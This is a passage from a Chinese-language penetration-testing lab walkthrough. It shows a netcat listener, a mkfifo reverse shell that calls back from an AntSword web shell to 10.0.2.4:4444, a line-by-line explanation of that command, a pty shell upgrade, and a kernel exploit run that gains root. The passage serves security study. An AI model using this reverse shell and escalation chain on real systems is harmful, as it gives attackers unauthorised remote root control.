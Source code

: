 似乎在蚁剑的shell内不能正常运行，尝试使用nc的shell

![image-20211118160045951](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211118160045951.png)

不支持-e参数（可使用串联方法），这里为了拓展攻击方法的多样性，使用命令

kali:

```
nc -nvlp 4444
```

![image-20211122111610268](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211122111610268.png)

蚁剑shell:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.0.2.4 4444 >/tmp/f
```

>rm /tmp/f 删除该文件（以免跟后面定义的 管道符 冲突）
>
>mkfifo /tmp/f 这是创建自定义有名管道符。管道符的名称是 /tmp/f （用于进程间的通讯， 如 ls > /tmp/f ，cat /tmp/f ,连通两个进程之间的通讯)
>
>cat /tmp/f 取出管道符中的内容
>
>|/bin/sh -i 2>&1 将前面取出的内容作为输入，输入给 /bin/sh，再将bash的标准错误输出 也作为标准输入 （2 >&1）给bash 然后再将bash的输出，传给nc 远程，再将nc 传来的数据，写入 管道符 /tmp/f 。最后首尾接通了。

![image-20211122112048252](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211122112048252.png)

执行后成功上线

![image-20211122112120594](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211122112120594.png)

![image-20211122112256382](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211122112256382.png)



```
python -c "import pty; pty.spawn('/bin/bash')"
```

![image-20211122113004129](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211122113004129.png)

```
./exp
```

![image-20211122113224509](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211122113224509.png)

成功提权到root权限

利用内核漏洞提权后，尝试其他方法

功成身退🤦‍

```
exit
```
